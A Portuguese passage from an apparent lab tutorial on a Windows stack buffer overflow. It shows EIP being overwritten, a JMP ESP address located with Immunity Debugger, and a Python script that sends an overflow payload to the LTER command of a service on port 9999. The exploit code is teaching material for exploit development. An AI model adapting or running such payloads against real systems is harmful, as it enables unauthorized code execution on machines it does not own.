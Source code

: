![Enumaração do comando.](/std/winbof/winbof-82.png)

Conseguimos sobrescrever o EIP com nossos “B”, vamos encontrar um JMP ESP com o Immunity para direcionarmos a execução para o nosso buffer.

![Enumaração do comando.](/std/winbof/winbof-83.png)

Encontramos nossos 9 endereços, no meu caso irei usar o 625011d3, lembrando que deve estar em little indian, ficando \xd3\x11\x50\x62.

Vamos atualizar o script e monitorar com o Immunity:

xpllter.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# variaveis de payoad
offset = 3000

# payload
payload = b"LTER /."
payload += b"A" * 2005
payload += b"\xd3\x11\x50\x62"
payload += b"C" * (offset - 2005 - 4)

# criando conexao
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
s.recv(1024)

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()

print("Payload enviado.")
```